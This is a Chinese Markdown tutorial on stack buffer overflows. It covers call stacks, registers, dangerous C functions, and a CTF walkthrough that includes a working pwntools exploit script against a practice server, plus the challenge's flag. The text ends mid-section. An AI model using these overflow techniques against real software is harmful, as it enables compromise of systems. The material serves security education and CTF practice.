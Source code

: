 # 栈溢出从入门到入狱



* #### 函数调用栈

  * #####  栈与系统栈

    * 栈

      栈是一种特殊的线性表，仅能在线性表的一端操作，栈顶允许操作，栈底不允许操作，先进后出。栈顶放入元素的操作称为入栈，取出元素称为出栈。 

    * 系统栈

      内存中的栈，由系统自动维护，用于实现高级语言中的函数调用。 

      程序的栈是从进程地址空间的高地址向低地址增长的，高地址是栈底，低地址是栈顶

  * ##### 寄存器与栈帧

    * ESP：栈指针寄存器，其内存中是一个指针，该指针永远指系统栈最上面的一个栈帧的栈顶。 
    * EBP：基址指针寄存器，其内存中是一个指针，该指针永远指向系统栈最上面的要给栈帧的底部。 
    * EIP：指令寄存器，其内存中是一个指针，该指针永远指向下一条等待执行的指令地址。 

  * ##### 函数调用过程

    1. 参数入栈：将参数从右向左依次压入系统栈

    2. 返回地址入栈：将当前代码区调用的下一条指令地址压入栈中，供函数返回时继续执行。 

    3. 代码区跳转：处理器从当前代码区跳到被执行函数入口。 

    4. 栈帧调整：

       1. 保存当前栈帧状态，以备后面恢复本栈帧使用（push %ebp）
       2. 将当前栈帧切换到新的栈帧（mov %esp, %ebp）
       3. 给新栈帧分配空间（%esp减去所需空间大小，抬高栈顶） 

    5. 参数值放入内存

    6. 保存返回值（通常保存在%eax中）

    7. 降低栈顶，回收当前栈帧的空间（mov %ebp, %esp）

    8. 之前保存的ebp弹入%ebp（pop %ebp），恢复上一个栈帧

    9. 返回地址弹入%eip（ret）

       ![1](C:\Users\wdbbw\Desktop\1.jpg)

       

  * ##### 栈溢出原理

    程序向栈中某个变量中写入的字节数超过了这个变量本身所申请的字节数，因而导致与其相邻的栈中的变量的值被改变 

    * ###### 前提

      1. 程序必须向栈上写入数据。
      2. 写入的数据大小没有被良好地控制。

    * ###### 基本操作

      通过覆盖地址的方法来直接或者间接地控制程序执行流程。

      1. 寻找危险函数

         * 输入
           * gets，直接读取一行，忽略'\x00'
           * scanf
           * vscanf（将格式化数据读入可变参数列表）
         * 输出 
           * sprintf（把格式化的数据写入某个字符串中）
         * 字符串 
           * strcpy，字符串复制，遇到'\x00'停止
           * strcat，字符串拼接，遇到'\x00'停止
           * bcopy

      2. 确定填充长度 

         计算要操作的地址与要覆盖的地址的距离

    * ##### 覆盖函数返回地址调用函数

      * [**CSAPP-Buffer LabLevel0: Candle**](https://aidaip.github.io/example/2019-02-07-CSAPP-Buffer-Lab/#level0-candle)
      * **[CSAPP-Buffer Lab-Level1: Sparkler](https://aidaip.github.io/example/2019-02-07-CSAPP-Buffer-Lab/#level1-sparkler)**
      * [**[XMAN]level0**](https://aidaip.github.io/example/2019-02-12-Jarvis-OJ-%E5%A8%B1%E4%B9%90/#xmanlevel0)

    * ###### 覆盖栈上某个变量的内容

      * ###### CGCTF-When did you born？

        ![3](C:\Users\wdbbw\Desktop\3.png)

        没有开启PIE

        ![2](C:\Users\wdbbw\Desktop\2.png)

        v5 = 1926可以得到flag，但输入v5后有一个判断，不能直接输入1926

        v5 != 1926，进入else，在输入v4时可以利用缓冲区溢出把v5的值修改为1926

        可以看出v5和v4的距离是8个字节，gets(&v4)时输入8字节的数据和1926就可以把v5修改为1926

        ```python
        from pwn import *
        r = remote("ctf.acdxvfsvd.net",1926)
        payload='a'*8 + p32(1926)
        r.recvuntil("What\'s Your Birth?\n")
        r.sendline("1234")
        r.recvuntil("What\'s Your Name?\n")
        r.sendline(payload)
        r.interactive()
        
        #flag{gets_is_dangerous_+1s}
        ```

        #####  

      * ###### CGCTF-Stack Overflow

        ![6](C:\Users\wdbbw\Desktop\6.png)

        ![4](C:\Users\wdbbw\Desktop\4.png)

        ![5](C:\Users\wdbbw\Desktop\5.png)

        

      

      

    * 